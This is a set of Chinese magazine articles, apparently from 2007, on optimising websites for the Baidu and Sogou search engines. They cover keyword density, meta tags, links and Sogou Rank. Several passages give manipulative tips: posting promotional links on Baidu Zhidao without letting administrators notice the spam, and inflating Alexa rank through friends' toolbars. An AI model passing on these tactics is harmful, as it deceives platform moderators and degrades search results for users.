如果你这么写，也许以前是没问题的，因为我以前尝试过……并且结合其它技术轻轻松松把一个网站排到了“官方”网站的前面（人家的名气、流量比我的大多了！嘿嘿），但是后来百度更新了这个“Bug”，现在如果用这种技术去搞排名，也许你能快活一星期、一个月，甚至更长一点，但是这个域名估计在有限的时间内就会被百度加入降权或者删除的名单里了。建议大家不要用这样的方法，百度的工程师智商并不低，不是吗？

- 2）过分地在 Meta 标签的 keywords 和 description 罗列关键字

```html
<meta name="keywords" content="黑客, 黑客防线, 黑客防线网站, 黑客防线论坛, 黑客防线光盘, 黑客防线老大, 黑客防线编辑, 黑客防线地址, 黑客防线编辑部, ...">
```

解释：当然，你可以把 Keyword 写得更长，也可以写入更多的垃圾关键词，甚至把激情小电影、美女脱衣都写进去……

```html
<meta name="description" content="黑客防线简称黑防，黑客防线的网站是国内黑客网站的NO.1，黑客防线的编辑们都住在黑客防线编辑部，黑客防线是国内黑客杂志的NO.1，黑客防线光盘是黑客防线杂志的赠送品">
```

解释：无休止地重复、重复、重复你要突出的关键词的描述，提高关键字的匹配度……

嗯，看上去，很符合网上一些搜索引擎优化教程写的规则，不是吗？但是很遗憾，我告诉你，这个也是被一些搜索引擎禁止的，因为你很明显地增加了页面中关键字的频度。注意，我说的是你“很明显地增加”。稍微多写一个还是可以的，但是如果你一直在 Ctrl+C、Ctrl+V，那么人都读得累了，当然，搜索引擎一定也读得腻了……它都嫌你的关键字读累了，你还指望给你排到前面？

还有，meta 的重要性已经慢慢减弱了，但是依然有搜索引擎重视这个，因此你最好还是加上 meta 的描述。

不过有一点你要注意，在正文无休止地重复你的关键字也是不允许的！合理的关键字密度是 2%~8%，出于搜索引擎优化和保险的双重需求，建议在 4%~6%之间。

好了，我就不再废话了，下面开始介绍如何“比别人更快”地排到搜索引擎，特别是百度的前面。为了直观，我们举个例子。

今天是 2007 年 4 月 15 日，我们在百度搜索“新春祝福短信”，其中：

第四位 http://hi.baidu.com/2007xzf/blog/category/%C4%AC%C8%CF%B7%D6%C0%E0  
第五位 http://zhidao.baidu.com/question/3246509.html

看到了吗？一个来自百度空间，一个来自百度知道。我们点击打开看看！

第五位的是有人在百度知道发了个询问标题“拜求经典新颖新春祝福短信”，正文也只有几个字，但是回复的网友不少，内容也基本上是短信，我们看看如下的分析。

页面 http://zhidao.baidu.com/question/3246509.html 共有 12241 个有效字符，即约有 10583 个汉字，约有 462 个英文字符，约有 324 个数字，约有 872 个符号。

此页面包含超链接数量 43 个，内部链接 12 个，外部链接 31 个。

此页面包含关键字“新春祝福短信”出现次数为 3，关键字密度约为 1%。

“新春祝福短信”只出现了 3 次，关键字密度约为 1%，不高，对吧？内部链接 12 个，外部 31 个，按照网上很多搜索引擎优化的资料，这个页面基本上不可能排到前面，也对吧？——可是人家的确排在前面。

看看第四位的，其 title 的内容是：2007 年新春祝福短信推荐评选活动。

是个活动评选，内容当然并不直接是短信的，那么，这个为什么也在前面呢？我们分析一下。页面 http://hi.baidu.com/2007xczf/blog/category/%C4%AC%C8%CF%B7%D6%C0%E0 共有 1526 个有效字符。

即约有 438 个汉字，约有 627 个英文字符，约有 224 个数字，约有 237 个符号。

此页面包含超链接数量 40 个，内部链接 33 个，外部链接 7 个。

此页面包含关键字“新春祝福短信”出现次数为 5，关键字密度约为 4%。

看到了吧？关键字密度是基本符合要求的，这个不足为奇，但是这个页面只有 438 个汉字，就这个页面，为什么能排到很多大容量页面的前面呢？

- 1）此博客有 2 篇文章，正文和内容是一个链接

```text
http://2007xczf.baidu.com/main/
http://hi.baidu.com/2007xczf
```

- （续）表现形式：标题是上面的链接，正文也是上面的链接，链接均来自百度。
- 2）关键字：新春、祝福、短信，多数被加粗，且和正文不是一个颜色。
- 3）博客文章的评论中也带有关键字。
- 4）发表评论的人名字是：新春祝福短信。
- 5）评论人“新春祝福短信”的链接，是一个名为“新春祝福短信”的空间，当然此空间同样来自百度。
- 6）这个博客的首页 http://hi.baidu.com/2007xczf，有如表 1 所示的几个友情链接。

| 名称 | 链接地址 |
|---|---|
| 新春拜年祝福 | http://hi.baidu.com/新春拜年祝福 |
| 曾芳林送祝福 | http://hi.baidu.com/曾芳林送祝福 |
| 推荐短信 | http://hi.baidu.com/推荐短信 |

表1

- 7）上面 5）中所说的“新春祝福短信”地址为：http://hi.baidu.com/新春祝福短信。

其实，看到这里，我们已经不用再进行更多的分析了。从上面第四、第五名的搜索结果分析我们可以得出如下的结果：一是百度对自己的产品有更好的倾斜性，就是说不公正性；二是用中文地址做关键字，效果要比英文或拼音好；三是百度除了有空间、知道，还有百度搜索、百度贴吧、百度百科……

有人会说：如果你的网站、网址在百度空间、百度知道、百度搜索、百度贴吧、百度百科……等等出现后，会加大被百度搜索的几率，会提高在百度的排名……

有人说，即使你的网站匹配度很高，也不如在百度申请个用户，在百度 XX 发表一些相关文章的排名来得快……

现在知道我要说什么了吗？如果没有看错，上面的百度空间的主人可以通过这个地址访问：“http://hi.baidu.com/曾芳林”，看到了吗？也是中文，也是百度的地址上弄的……大家可以仔细看看人家是怎么搞的，仔细分析下。呵呵，别作恶！

我们再来看“http://hi.baidu.com/黑客防线”，访问量高不？

当然，有一点你要注意，如果你的网站实在太不好，太没有内容，那么再好的外界条件也帮不了你，一句话：内容为王。

如果有时间，建议多搜一些关键字，特别是不是很热门的关键字，看看排在第一页的都是哪里的页面，看看百度的胳膊是向里拐还是向外拐？呵呵，既然百度胳膊向里拐，那么你要怎么做呢？

最后，我用一句话来结束本文：Don’t be evil. ——不作恶。

同时也来一个补充：百度一下“don’t be evil”看看结果是什么？如图 1 所示。仔细看看它们来自于哪里？再看看首页这些地址打开之后分别是什么程序做的？现在有信心了不？


适合读者：网管、网站爱好者

前置知识：无

#### 十招征服百度搜索引擎

文／牵着蜗牛去散步

Baidu 搜索引擎作为全球最大的中文搜索引擎，在中国占据着 65% 左右的搜索份额，优化好百度搜索引擎至关重要，下面就谈谈我与 Baidu 多年来积累的经验。

### Baidu 新站快速收录秘诀

很多朋友最近问我，我的网站怎么还没有被百度收录。的确，百度搜索引擎近一段时间越来越看不起新的网站，这是不争的事实。但是让 Baidu 收录靠前也是有技巧可寻的。首先要保证你的网站文章至少录入了 100 篇，这些文章最好都是自己原创的，这样 Baidu 不会认为你的网站是没有价值的垃圾网站。如果一百篇全是抄袭别人或采集而来，那么你的网站给百度的第一印象就会降低很多，Baidu spider 光顾你网站的时间和间隔将大大增长，甚至直接把你的域名放入 SPAM 列表中都是必然的。……我们可以整理一些与你网站相关的内容到 Baidu 知道或 Baidu 空间中去，并附上相关链接。注意，不要让管理员觉察到你是在 Baidu 知道上发垃圾广告，Baidu 知道回答的结果由人工审核，凡事都要有个度，不然适得其反，你的网站就有终身监禁的危险。

### 新站运营需要注意的地方

再次声明，Baidu 搜索引擎现在和 Google 走得越来越近，对于新网站的关注度不是很高，了解 Google 的老鸟都知道 Sandbox 沙盒效应，就是说你的网站内容再丰富，关键字优化得再好也不可能有很好的排名。除非你的内容是一些很冷僻没有人访问的东西，否则都需要一个漫长的考验，一般要持续个半年。毕竟 Google 作为一家成熟的国际化公司，考验这个网站是正常的事情，同时我们要记住，搜索排名是一个稳定的算法，如果搜索排名动荡很大，一天一个样，那么搜出来的结果也就不可靠了。因为现在很多站长都是投机取巧，怀有侥幸心理，很多都是捞一把就走人的想法。……所以新站站长一定要耐心，保证每天更新，最好刚开始都是原创的。过了这漫长的考验期，你就尝到稳定带来的甜头了。

### 菜鸟站长成长手册注意事项

很多新站长都喜欢注册一堆域名解析到同一个服务器，看中了一个好的域名就把 .com、.cn、.com.cn、.net 等统统抢下来，但是这样的后果会导致搜索引擎把你的其他域名当作镜像站点，降低网站的权值，更严重地就会把你打入死牢，仅收录一个主页或从 Baidu 上永远消失。……那么如何合理使用抢注下来的其他域名呢？其实我们可以注册多个博客，这些博客链接到你的网站，那些其他域名都转发到你博客地址就可以了，这样就可以把损失降低到最大限度，是一个比较完美的解决方法。

### 论坛的优化

即便是论坛我们也要优化，现在目前主流的论坛程序有 Discuz、PHPWind 和动网，一般都支持 Archiver 静态化或精简版功能，搜索引擎偏好 html 类的网页。优化好论坛可以帮助搜索引擎更好地索引论坛中的帖子，同时论坛灌水区尽量限制搜索引擎的访问（即游客访问）；因为水区的秩序相对混乱，文章价值比较低，搜索引擎会相应地降低网站的权值，当然，这还要根据你论坛的类型和具体情况来看。论坛最好搞一个精华区，专门把有价值的文章归类到精华区中，这样搜索爬虫会一直坠入你论坛中，最后恋恋不舍离去。集中搜索的好处可以保证好的帖子一个也不丢，全部被搜索引擎索引，给访客的印象感觉这个论坛管理员比较负责，同时注意这个区的权限，最好是一般的用户不能发表主题和回复，或者只有版主才可以把其它区好的帖子移到这个精华区。

### Baidu 搜索相关疑难问题解答

- 1）域名更换。很多站长都是刚开始对自己网站未来没有抱多大的幻想，但是到了后来发现有意想不到的火爆，怪就怪在过去随便注册了一个域名，名字长不好记不说吧，让用户输入那么长的字符不是一件容易的事情；但要记住域名最好自己亲手注册。有些朋友自己花了大价钱从“玉米虫”那里买了一个名字不错的域名，但最后发现这个域名怎么也不被搜索引擎收录，被 Baidu 打入黑名单的好玉米多了去了，这样你有苦难言，所以更换域名要做充分的考虑，如果确定下来让老域名留着，做个 301 永久重定向比较好，这样两个域名现在都还可以访问，给访客和搜索引擎一些时间去适应。
- 2）服务器不稳定。如果你的服务器不稳定，也会造成搜索排名下降，每次搜索爬虫光顾你网站的时候发现该页无法显示，次数多了，你的网站搜索排名自然受到影响，严重了就是无法索引你的网页，最终的结果可想而知。
- 3）Baidu 解封。Baidu 封站是常有的事，一封短则半年长则两三年甚至一辈子的事。如果发现 Baidu 索引的网站数量突然减少了不用怕，你要从多个方面去分析，首先检查服务器稳定，然后检查内容是否违规了，你可以根据 Baidu 快照时间来判断你网站被 Baidu spider 重视程度和最后一次爬过你网站的日期。查询搜索引擎收录的方法，这里以黑客防线官方网站为例，在任意搜索引擎中输入 `site:www.hacker.com.cn`，就会看到搜索引擎索引了你网站有多少页。如果 Baidu 长期封你的网站，就要考虑换域名了。过去购买百度竞价排名还有点用，现在浪费再多心血都是得不偿失，长痛不如短痛，根据你网站的严重情况来权衡吧。

### 高排名网站的长久之计

如果你的网站很多关键字在 Baidu 排名第二，你就要考虑购买 Baidu 竞价排名，这样可以保证你的网站不会被百度 K 下去，带来的流量也会稳定。适当的投入是为了赢取更多的利润，只有放长线才能钓大鱼嘛，做一下 Baidu 主题推广来获取流量也是不错的选择，给百度点钱，Baidu 为你更好地服务，这也是理所当然的事情。当然，如果你的网站出现在 hao123 这类网站上，你的网站排名一般都会稳如泰山。

### Alexa 排名

由于搜索引擎不知道你网站的具体访问量，所以搜索引擎也会参考一些流量评估公司，目前比较权威的是 Alexa。由于 Alexa 排名是通过用户安装 Alexa 浏览器工具条来记录的，但 Alexa 工具条主要是国外用户使用，所以在这一点中国用户就比较吃亏，所以站长最好和自己的朋友都安装一个 Alexa 工具条为自己的网站提高排名。还有就是 Alexa 作弊，很多人选择代理访问自己的网站，其实 Alexa 早在几年前就考虑到这个问题，针对代理服务器 IP，Alexa 都过滤掉了，所以不要再浪费时间；同时，Alexa 已经可以精确到脱离 IP 来识别每台电脑了，仅仅换个 IP 是无法起到刷 Alexa 排名的，所以你应该把精力放在网站内容上。不过更严重的是，现在网上流传了一些 Alexa 互刷联盟，就是加入后，站长相互合作，你访问我的网站，我访问你的网站，仔细一看感觉很公平也很有效。我有一个朋友就加入了这种联盟，但是现在想出都出不来，和吸毒差不多，但不是因为上瘾而是无奈。的确，短期内是很有效，尤其是对于新站，但是当你哪天突然不想刷 Alexa 时，问题也就出来了：你不工作了，别人也不为你工作，直接导致的结果就是 Alexa 排名大幅下降，最终导致被搜索引擎认为是作弊，同样可能遭受终身监禁，搜索引擎只收录你可怜的几页甚至从搜索结果中消失。所以加入互刷 Alexa 联盟就像上了贼船跑都跑不掉，哪天被谁举报了，整个联盟都得完蛋，谁也跑不了。

---

适合读者：网管、网站爱好者  
前置知识：无

## 轻轻松松提高百度排名之优化篇

文／图 网络游侠

阅读本文前，建议大家先看看上期杂志本文的兄弟文章《轻轻松松提高百度排名之作弊篇》，不过也许你看了之后就无意再看本文，但是如果你的目标不仅仅是做个垃圾站，那么请花几分钟时间看下去，也许用处不大，但是“或许”对你“有点”用处。

今天是 2007 年 6 月 15 日，以百度搜索“百度 搜索引擎优化”的结果为例，如图 1 所示。看到了？分析如下几个方面。

- 1）网站名称
- 2）网站 Title 内容

这个似乎不用多介绍，现在的搜索引擎能自动区分“SEO”和“搜索引擎优化”两个关键字，当作同一个关键字来对待，这是毫无疑问的。

Title 这部分可以看出，虽然我们搜的是“百度 搜索引擎优化”，但是结果中有不少是关键字带 Google 的，而没有百度的！当然，我关键字设定的时候没有进行强制有百度，这或许带来了一些查询时的不准确，但是我也是想通过这种方式，来查看百度对我们设定关键字的准确程度。——失望？呵呵，能带来流量就行！

宣传一下浙江摆脱互刷联盟带来的后遗症。

### 友情链接

说起友情链接，现在也不是指望友情链接能为你带来多少流量，而是一种维持自己网站搜索排名的工具，说白了就是维持自己网站的 PR 值。你的网站链接出现在一些高排名的网站对你是很有利的，但是话反过来说，你网站的友情链接中有很多作弊的网站或垃圾网站你也要跟着背黑锅，降低你网站的权值，所以寻找友情链接最好是高排名同时又不作弊的网站，这是一件很重要的事。最后说一下查询别人链入你网站链接多少的方法，这里以黑客防线官方网站为例，在任意搜索引擎中输入 `link:www.hacker.com.cn` 就可以看到引用黑防官网的数量了。

### Sitemap 站点地图

Google 和 Yahoo 都支持 Sitemap 站点地图提交，最近 MSN 也开始支持这一特性。提交站点地图可以让搜索引擎更好地索引网站，如果你的部分文章在深层目录时，搜索引擎很可能没有抓取到，提交一个站点地图就可以很好地解决这一问题。还有就是这个站点地图文件最好每天更新，由于 Sitemap 文件是一种 XML 标准的文件，所以一定要通过验证，格式符合标准，否则前面做的大多就前功尽弃了。验证 XML 错误可以使用 DTD、XDSL 等方法，这里再告诉大家一种最快最有效的方法，直接用 IE 打开这个 XML 文件，如果正常显示树形结构就说明没有问题，如果无法显示，IE 会提示第几行第几个字符有错误，你可以使用 UltraEdit 之类的工具去修改。同时说明一点，XML 文件是对大小写敏感的，这和 html 有一些区别。

### 网站自身的质量

不管说多少，我们都要保证自己网站的质量，上面的都是辅助，最重要的就是网站自身的质量，做网站是给人看的，不是给机器搜索的。记住，搜索引擎 Spider 也是一个特殊的访客，我们要注重用户体验，以搜索引擎、以访客的角度去看我们的网站，自己看着舒服其他人才可能看着舒服，如果自己都看不下去了，那么别人会看你的网站吗？

最后声明一下，我不是 Baidu 崇拜者，对百度这么了解都是凭借自己的经验，经验不是一口就吃出来的，需要长期的积累和总结。希望大家珍惜这篇文章提高的一些技巧。最后还是要感谢黑防让我学到了很多网络安全知识，才保证了我网站安全运营了近 6 年没有被黑过一次。当然这可能和我人品有关吧！作为老读者，我就把多年来的经验在黑防中分享给大家，有机会了我再向大家分享一些具体的方法。希望黑防刊登更多优秀的安全文章，也希望各位的网站的访问量都是 day day up。

- 3）Meta 的 keywords

就像我在《轻轻松松提高百度排名之作弊篇》中说的，这部分不能无休止地重复关键字，大家可以看看这些网站的 keywords，是否有重复的现象？并且注意一下，到底 keyword 多少是合适的？是不是越多越好？

- 4）Meta 的 description

老老实实地写，不是写得越煽情越好，不是吗？^^

- 5）网站使用的程序

用的文章系统？CMS（内容管理系统）？博客程序？论坛程序？或者手工制作的页面？多数是哪一种呢？不但是用上面这 5 个网站分析，多看看别的网站，设定别的、你感兴趣的关键词看看，是哪种最多？因为这是对搜索引擎优化即 SEO 做的分析，不一定适合你要做的网站的类型，切记！

- 6）网站 URL 的形式

包括网站根目录的形式（毫无疑问，上面的几个都在根目录“/”下）、栏目目录的形式（栏目目录采用英文或者拼音的写法，而不是 1、2 这样，比如“SEO 工具”栏目用“SEO-Tools”这样的目录）、文章 URL 的形式（如果可能，最好用关键字或者拼音，而不用 2007-04-15.htm、EB24DI387977.htm 这样的形式，例如用 Seo-BaiDu-GuGeSouSuoYinQingYouHuaZhiNan.htm；SEO 代表网站主题，Baidu 代表百度优化栏目）。

- 7）网站是否生成静态

毫无疑问，上面 5 个网站全部采用了静态页面，而不是调用数据库的形式。有优势吗？当然，要不怎么都用这个！搜索引擎的帮助手册也明确说明了静态要优先于动态，如果非要动态，那么“id=68”这样的优先于“id=8&page=3&class=53”这样的。

- 8）网站是否采用了 DIV+CSS

采用 DIV+CSS 方式可以有效地减小网页大小，减少网页垃圾代码，提升网页打开的速度，这都是搜索引擎喜欢的。既然它们喜欢，当然就排名好一些！

- 9）网站页面的布局

打开一个页面的 HTML 代码看看，从上到下阅读。如果你的关键字靠前，那么就好一些。一般说来，上面是标题，正文在左边，最新更新和栏目更新放在右边，下面是相关文章，或者相关文章也放在右边，最下面可以写一些次要一些的内容。但是需要注意，版权这里要写得明确，这个现在很多搜索引擎还是认的，百度一般可以明确地读出版权声明部分。

- 10）网站代码是否简洁

这个不多说，垃圾代码多了谁也不喜欢。

- 11）关键字密度

2~8% 是比较合适的，但是更推荐 4~6%。过多了会被搜索引擎 kill，少了就得不到好的效果了。

- 12）栏目，即导航栏显示的名称设置

尽量把你的栏目名称写成和网站匹配的样式，比如 SEO 协会的栏目是：“SEO 文章、SEO 新闻、SEO 下载、SEO 问答、SEO 商城、SEO 论坛、SEO 地带……”易搜的是“搜索引擎优化、搜索引擎、SEO 服务、国外 SEO、网站登录、SEO 网址”参考下，分析下，一定有帮助！

- 13）文章头部、底部内容

仔细看看这几个网站的头部，是不是都有一些特殊？比如漂亮字、比如加粗、变色字、比如栏目在上；比如栏目名称加粗、栏目名称加色，比如……比如你想排名靠前，就要学学人家！呵呵^^

- 14）外部链接

其实外部链接几乎是最重要的一个方面。试想一下，如果你有一个网站，新浪、搜狐、网易都在首页链接了你，而你的网站链接全部是内部的，那么你的网站排名一定很好……为什么？人家那么多搜索引擎评价很高的网站都主动链接到了你，而你还相当“高傲”，就是不链接他们，在搜索引擎眼里，你的网站就是专家类型的，当然排名要提升。

接下来就不再多说了，其实搜索引擎优化的文章网上一搜一大把，多数都内容很相似，我这里只是找几个网站和大家一起分析下，毕竟专门研究搜索引擎优化的网站竞争更激烈，优化的手段也更好，更有说服力！

最后，网站不是建好就可以不管的，没有一个搜索引擎喜欢一成不变的网站，总要给爬行的蜘蛛们一些惊喜，它们才肯天天光临！

至于 Alt 什么的就不说了，只要搞 SEO 的人都知道，只是别太过分，和 meta 的写法差不多了；不是一味地重复关键字就可以的。

祝大家好运，网站流量天天升！如果有时间，多看看流量统计系统，往往好的优化者也都是好的流量统计分析员！

---

适合读者：网管、网站爱好者

前置知识：无

## 从火眼搜狗搜索引擎，认识 Sogou Rank

文／图 网络游侠

我们知道，Google 对网页评级的时候，有个 PR 值，而搜狗搜索引擎前一段时间也引进了 PR 的概念，不过名字叫 Sogou Rank。下面我们就来看看搜狗搜索引擎的一些特性，当然，不止是针对搜狗的，这些特性同样适用于其它搜索引擎。

我们在搜狗的搜索框输入 `www.hacker.com.cn`，回车，结果如图 1 所示。看到了吗？Sogou Rank 是 50，怎么理解呢？看看搜狗的说法。

图 1

网页评级（Sogou Rank）是搜狗衡量网页重要性的指标，不仅考察了网页之间链接关系，同时考察了链接质量、链接之间的相关性等特性，是机器根据 Sogou Rank 算法自动计算出来的，值从 0 至 100 不等。网页评级越高，该网页在搜索中越容易被检索到。

关键词：网页间链接关系、链接质量、链接间相关性，值越高越容易被搜索到。

下面我们来依次对其进行分析。

### 网页间链接关系

一个好的导航是必不可少的。曾经有文章判断搜索引擎为什么偏好博客程序，很重要的一点就是博客都有如下几项，当然，这里我只谈论和网页间链接有关的，其它的就不多说了，另外写文讨论。

- 1）都有好的导航栏，可以很方便地回到首页；
- 2）文末一般都有“上一页”、“下一页”；
- 3）一般都有“相关文章”，这个靠关键字或标签实现；
- 4）多数都有“栏目排行”、“周/月排行”、“点击总排行”；
- 5）文章或列表页面都有“最新更新”、“最新评论”的链接。

一言以蔽之，博客之所以受搜索引擎欢迎，很重要的一点就是它网页间链接关系做得相当到位。试问，如果你的网站想找另一篇文章很困难，人都找不到，搜索引擎能找到吗？如果你的网站对访客友好，那么搜索引擎同样会感到很好。因此页面间的链接相当重要。君不见，哪个讨论 SEO 网站的导航做得不是很方便？

### 链接质量

这个其实没有太多讨论的必要，但是就像 Google、百度、Yahoo 和搜狗都有自己的特点一样，判断链接质量的标准也不一样。Google 是靠 PR，搜狗就是靠 Sogou Rank，也是我们本文着重讨论的。

如果要给你的网站找友情链接，那么最好找 Sogou Rank 比你高的，至少也要差不多的。如果你的 Sogou Rank 是 50，而你链接了一个不到 10 的，那么你的网站也要受到影响。

我们看看在搜狗里输入 `www.hacker.com.cn` 搜索之后，在 Sogou Rank 下面列出了指向该链接的一些网页，如图 2 所示。我们也给这两个地址来个 Sogou Rank，看看结果。`www.thysea.com` 的 Sogou Rank 是 52，排第一位，如图 3 所示；没有 www 的 `thysea.com` 的 Sogou Rank 是 30，排第二位，如图 4 所示。

图 2

搜狗认为，指向 `www.hacker.com.cn` 的网站里面，`thysea.com` 的质量是比较高的，但是 `thysea.com` 和 `www.thysea.com` 又是绑定了一个空间，就是说是镜像，一般访问的时候加 www 访问的比较多，因此这两个也是不一样的，因为有 www 和没有的在搜索引擎看来（当然实际上也是这样）是 2 个不同的网站。一个访问量大，并且外部链接多，那么 Sogou Rank 就高了，即使它们指向的是同一个网站。

如果你想做好 Sogou 搜索引擎的优化，那么高质量的外部链接是必不可少的；当然，对于 Google、百度、Yahoo 同样适用。

### 链接间相关性

如果你网站的定位是“黑客”，但是你的网站中有很多“汽车”的关键字，并且你的友情链接也多数是汽车相关的网站，那么恭喜你，你的网站将会在“汽车”查询中有较好的关键字，是“汽车网站中的黑客”！

如果你的网站定位是“黑客”，那么你网站的栏目、文章、友情链接、文章中的内部链接，最好是和黑客相关的，或者说同义的，我们写几个和“黑客”相关的关键字。

- 黑客
- hacker
- hack
- heike
- 信息安全
- 网络安全
- 木马
- 特洛伊
- 病毒
- 灰鸽子
- 黑洞
- 黑客防线
- 瑞星
- 反病毒
- Kaspersky
- 绿盟
- 防火墙
- IDS
- IPS

虽然有些关键字，比如瑞星、IDS，和“黑客”本身没有文字上的关联，但是对于搜索引擎来说，它抓网页的时候，很多黑客网站都有这两个关键字，那么就也自动判断它们具有相关性，你的网站上有了这些，也会被认为是和你的“黑客”内容相关。

搜索“黑客”相关的有几个搜索量大的关键字，如果你要做黑客类网站，可以找到这几个网站尝试交换链接，或者到它们网站注册个 ID 发几个帖子，都会有收获。

### 小结

如果以上三点你都能做好，那么 Sogou Rank 应该是不错的。当然，Sogou Rank 的高低绝不仅仅取决于这三点，但是这三点是其中比较重要的三个部分。对于搜狐来说，Sogou 是其搜索战略的主力，下一步应该会有大动作。

我们来看各个搜索引擎在 Sogou Rank 中的得分，如图 6 所示。不难看出，世界第一位的 `www.google.com` 和中文老大 `www.baidu.com` 得分都比较高，搜狗丝毫没有回避这一点。

| 网址 | Sogou Rank |
|---|---|
| www.baidu.com | 89 |
| www.iask.com | 75 |
| www.sogou.com | 79 |
| www.yahoo.cn | 75 |
| www.google.com | 95 |
| www.google.cn | 74 |

我们再来看看几个门户网站的 Sogou Rank 得分，如图 7 所示。`www.163.com` 稳稳地坐上了第一把交椅，`www.yahoo.com.cn` 的得分也高于 `www.sohu.com`。应该说 Sogou Rank 还是相对比较公平的，不像百度，你搜索的时候很多关键字都是来自于内部：百度贴吧、百度知道、百度空间……百度的搜索结果是没有公平性可言的。

| 网址 | Sogou Rank |
|---|---|
| www.sohu.com | 81 |
| www.163.com | 92 |
| www.sina.com.cn | 80 |
| www.yahoo.com.cn | 82 |

搜狐推出搜狗 3.0 之后，加大了对搜狗的推广力度，并且相对于 Google、百度、Yahoo，搜狗搜索引擎优化的压力要小得多……明白该怎么做了吧？呵呵。